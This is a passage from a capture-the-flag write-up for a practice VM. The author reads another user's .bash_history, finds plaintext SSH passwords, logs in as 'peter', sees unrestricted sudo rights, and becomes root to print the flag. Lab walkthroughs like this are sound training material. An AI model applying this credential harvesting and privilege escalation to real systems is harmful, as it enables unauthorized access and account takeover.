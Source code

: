 Woot, JKanode's history is 167 bytes long! 

``` 
SHayslett@red:~$ cat /home/JKanode/.bash_history 
id
whoami
ls -lah
pwd
ps aux
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
ps -ef
top
kill -9 3747
exit
```

Inside we have JKanode and peter's passwords! I SSH'ed as peter and checked the sudo rights:

``` 
red% whoami
peter
red% sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter: 
Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on red:
    (ALL : ALL) ALL
```

User peter has unlimited access on the machine! We can become root now:

``` 
red% sudo su
➜  peter ls /root
fix-wordpress.sh  flag.txt  issue  python.sh  wordpress.sql
➜  peter cat /root/flag.txt 
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b

```
